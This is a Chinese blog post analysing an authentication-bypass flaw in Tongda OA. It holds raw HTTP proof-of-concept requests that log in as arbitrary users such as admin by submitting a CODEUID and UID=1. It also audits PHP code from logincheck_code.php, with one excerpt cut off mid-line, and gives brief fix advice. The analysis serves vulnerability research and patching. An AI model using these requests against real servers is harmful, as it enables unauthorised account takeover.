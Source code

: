 ```yaml
---
layout: post
title:  "通达OA越权登录漏洞分析"
categories: 漏洞分析
tags: PHP代码审计 TongDaOA
author: 0e0w
---
```


* content
{:toc}
这是一篇关于通达OA越权登录漏洞的分析文章。由于作者能力有限，文中定会出现一些错误，请谅解。本文会不定期更新，最近一次更新时间为2020年6月2日。鉴于凡世之忙碌，下一次更新也许是明天，也许是下辈子。
> 关于通达OA的更多信息，请查看通达OA[官网](http://www.tongda2000.com/)。

## 01-漏洞概述

2020年4月中旬的时候，通达OA发布了11.5新版本。国内安全研究人员通过代码比对，发现了此漏洞。此漏洞可以越权登录任意用户账号，影响极大。

漏洞成因是由于前台登陆时未作权限验证，程序开启全局覆盖，可以直接覆盖 _SESSION 里的数据造成任意用户登陆。 服务端只取了UID来做用户身份鉴别，由于UID是整型递增ID，从而导致可以登录指定UID用户。

## 02-漏洞分析

- 影响版本：通达OA2017、V11.X<V11.5
- 发现时间：2020-04-01

### 一、Payload

先上payload。

11.4版poc1：

```
GET /general/login_code.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

```
GET /ispirit/login_code.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

11.4版poc2:

```
POST /logincheck_code.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

CODEUID=%7BF1643A67-D96F-BB39-E350-AED1A70E5FB9%7D&UID=1
```

2017版poc1：

```
GET /ispirit/login_code.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

2017版poc2：

```
POST //general/login_code_scan.php HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; QQDownload 732; .NET4.0C; .NET4.0E)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 94
Content-Type: application/x-www-form-urlencoded

codeuid=%7B000EB6B8-3595-474D-F673-6BD8B187388D%7D&uid=1&source=pc&type=confirm&username=admin
```

2017版poc3：

```
GET //ispirit/login_code_check.php?codeuid=%7B000EB6B8-3595-474D-F673-6BD8B187388D%7D HTTP/1.1
Host: 192.168.220.129
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
```

### 二、代码审计

- /logincheck_code.php:11-18行。UID通过post传参。如果CODEUID存在，则不会exit。

  ```php
  $redis = TRedis::redis();
  $UID = intval($_POST["UID"]);
  $CODEUID = $_POST["CODEUID"];
  $login_codeuid = TD::get_cache("CODE_LOGIN" . $CODEUID);
  if (!isset($login_codeuid) || empty($login_codeuid)) {
  	$databack = array("status" => 0, "msg" => _("参数错误！"), "url" => "general/index.php?isIE=0");
  	echo json_encode(td_iconv($databack, MYOA_CHARSET, "utf-8"));
  	exit();
  ```

- /logincheck_code.php:180行。UID用户可控。CODEUID用户可控。

  ```php
  $LOGIN_UID = $UID;
  $LOGIN_USER_ID = $USER_ID;
  $LOGIN_BYNAME = $BYNAME;
  $LOGIN_USER_NAME = $USERNAME;
  $LOGIN_ANOTHER = "0";
  $LOGIN_USER_PRIV_OTHER = $USER_PRIV_OTHER;
  $LOGIN_DEPT_ID_JUNIOR = GetUnionSetOfChildDeptId($LOGIN_DEPT_ID . "," . $LOGIN_DEPT_ID_OTHER);
  $LOGIN_CLIENT = 0;
  $_SESSION["LOGIN_UID"] = $LOGIN_UID;
  $_SESSION["LOGIN_USER_ID"] = $LOGIN_USER_ID;
  ```

- /logincheck_code.php:164行。通过UID的值去数据库里面去取值，

  > $UID -> $query1 -> $cursor1 -> $row

  ```php
  $LOGIN_FUNC_STR = "";
  $query1 = "select user_func_id_str from user_function where uid='$UID'";
  $cursor1 = exequery(TD::conn(), $query1);
  
  if ($row = mysql_fetch_array($cursor1)) {
  	$LOGIN_FUNC_STR = $row["user_
  ```

### 三、漏洞修复

不要通过用户可控的UID作为权限校验的方法。

## 03-参考链接

- http://www.0e0w.com
